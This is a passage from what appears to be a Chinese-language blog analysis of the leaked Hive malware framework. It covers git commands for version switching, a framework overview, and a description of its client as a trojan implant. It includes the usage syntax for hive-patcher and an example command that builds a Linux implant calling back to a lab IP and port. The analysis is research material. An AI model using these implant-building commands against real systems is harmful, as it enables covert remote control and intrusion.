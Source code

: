 **补充切换版本的方法：**

查看版本号：

```
git reflog
```

切换版本至polar-1.3.4：

```
git checkout polar-1.3.4
```

## 0x03 框架分析
---

结合框架图对Hive进行分析

原图片来自`\hive\infrastructure\documentation\Hive Operating Environment.odp`

我在原图片的基础上做了标记，便于分析，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-11-12/4-1.png)

### (1) Client

相当于木马的被控端，通过hive-patcher生成

支持以下系统：

- mt-x86
- mt-mips
- mt-mipsel
- mt-ppc
- linux-x86
- sol-x86
- sol-sparc

可使用以下目录的不同版本：

- hive\snapshot_20141217-1052\clientDirectory
- hive\snapshot_20141107-1345\clientDirectory
- hive\snapshot_20141017-1409\clientDirectory

测试使用`hive\snapshot_20141107-1345\clientDirectory`

用法如下：

```
./hive-patcher -a address [-d b_delay] [-i interval] (-k idKey | -K idKeyFile) [-I interface] [-p port] [-t t_delay] [-m OS] 
```

该工具的详细说明可参考用户文档，位于`\hive\documentation\UsersGuide\UsersGuide.odt`, `2.3 (S) Patcher`

实例：

```
./hive-patcher -a 192.168.81.192 -p 4567 -i 3600 -j 5 -m linux-x86 -k "Testing Testing"
```
